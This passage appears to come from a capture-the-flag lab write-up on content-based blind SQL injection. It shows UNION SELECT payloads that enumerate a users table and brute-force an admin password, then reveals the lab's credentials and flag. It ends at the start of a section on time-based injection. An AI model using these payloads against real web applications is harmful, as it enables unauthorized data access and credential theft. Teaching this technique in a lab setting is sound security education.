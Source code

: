 ```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name like 'a%' AND column_name != 'id';--
```
Repeating the iteration process, we will discover three columns in the `users` table: `id`, `username` and `password`. With this knowledge we can start enumerating the password for a known user. Since we know that `admin` is a valid user, we can modify our query to begin the password discover.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM users WHERE username = 'admin' and password LIKE 'a%';--
```
Cycle through all the letters, numbers and characters until the value of `taken` returns a `true`. Repeating the iteration process we will discover the password `3845` for the `admin` user.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM users WHERE username = 'admin' and password LIKE '3845';--
```
<br>

![Content-based SQLi Admin Password Discovery](../../assets/images/thm/sqli/17-contentbasedsqliadminpass.png)

Using the credentials `admin:3845` we can retrieve the flag: `THM{SQL_INJECTION_1093}`

As obvious for this example, content-based blind SQLi can be a time consuming endeavour but none-the-less allow an attacker to retrieve unauthorized data.

## Time-based Blind SQLi Injection
Time-based blind SQLi injections requires an attacker to observe the behaviour of a web application and its underlying database server after forcing the database to perform a time-intensive operation. If the web application does not return a response immediately, blind SQLi vulnerability is likely. This is useful for scenarios where no visual indicator of queries being TRUE or FALSE are presented.
